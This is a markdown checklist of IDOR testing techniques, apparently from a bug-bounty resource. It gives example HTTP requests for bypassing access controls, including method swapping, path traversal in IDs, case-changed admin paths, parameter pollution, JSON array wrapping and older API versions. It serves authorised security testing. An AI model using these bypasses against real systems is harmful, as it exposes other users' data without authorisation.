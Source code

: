 ## **IDOR Checklist**

***
Potential and absolute ways to find an idor vulnerabilty, things to check and observe; Take note that this checklist isn't limited to the amount of knowledge when hunting for IDOR vulnerabilities.

***

**Base Steps:**

```
1. Create two accounts if possible or else enumerate users first.   
2. Check if the endpoint is private or public and does it contains any kind of id param.  
3. Try changing the param value to some other user and see if does anything to their account.  
4. Done !!
```

[ ] image profile

```
try if you can idor to view image of any profile
```

[ ] delete account

[ ] information account

[ ] VIEW & DELETE & Create `api_key`

[ ] allows to read any comment

[ ] change price

[ ] change the ==coin== from dollar to euro

[ ] Try decode the ID, if the ID encoded using md5,base64,etc

```
GET /GetUser/dmljdGltQG1haWwuY29t  
[...]
```

[ ] change HTTP method

```
GET /users/delete/victim_id  ->403  
POST /users/delete/victim_id ->200
```

[ ] Try replacing parameter names

Instead of this:  
```
GET /api/albums?album_id=<album id>
```

Try This:  
```
GET /api/albums?account_id=<account id>Tip: There is a Burp extension called Paramalyzer which will help with this by remembering all the parameters you have passed to a host.
```

[ ] Path Traversal

```
POST /users/delete/victim_id          ->403  
POST /users/delete/my_id/..victim_id  ->200
```

[ ] change request content-type

```
Content-Type: application/xml ->  
Content-Type: application/json
```

[ ] swap non-numeric with numeric id

```
GET /file?id=90djbkdbkdbd29dd  
GET /file?id=302
```

[ ] Missing Function Level Acess Control

```
GET /admin/profile ->401  
GET /Admin/profile ->200  
GET /ADMIN/profile ->200  
GET /aDmin/profile ->200  
GET /adMin/profile ->200  
GET /admIn/profile ->200  
GET /admiN/profile ->200
```

[ ]send wildcard instead of an id

```
GET /api/users/user_id ->  
GET /api/users/*
```

[ ] Never ignore encoded/hashed ID

```
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

[ ] Google Dorking/public form

```
search all the endpoints having ID which the search engine may have already indexed
```

[ ] Bruteforce Hidden HTTP parameters

```
use tools like arjun , paramminer
```

[ ] Bypass object level authorization Add parameter onto the endpoint if not present by default

```
GET /api_v1/messages ->200  
GET /api_v1/messages?user_id=victim_uuid ->200
```

[ ] HTTP Parameter Pollution Give multi value for same parameter

```
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id  
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

[ ] change file type

```
GET /user_data/2341        -> 401  
GET /user_data/2341.json   -> 200  
GET /user_data/2341.xml    -> 200  
GET /user_data/2341.config -> 200  
GET /user_data/2341.txt    -> 200
```

[ ] json parameter pollution

```
{"userid":1234,"userid":2542}
```

[ ] Wrap the ID with an array in the body

```
{"userid":123} ->401  
{"userid":[123]} ->200
```

[ ] wrap the id with a json object

```
{"userid":123} ->401  
{"userid":{"userid":123}} ->200
```

[ ] Test an outdated API version

```
GET /v3/users_data/1234 ->401  
GET /v1/users_data/1234 ->200
```

[ ] If the website using graphql, try to find IDOR using graphql!

```
GET /graphql  
[...]

GET /graphql.php?query=  
[...]
```
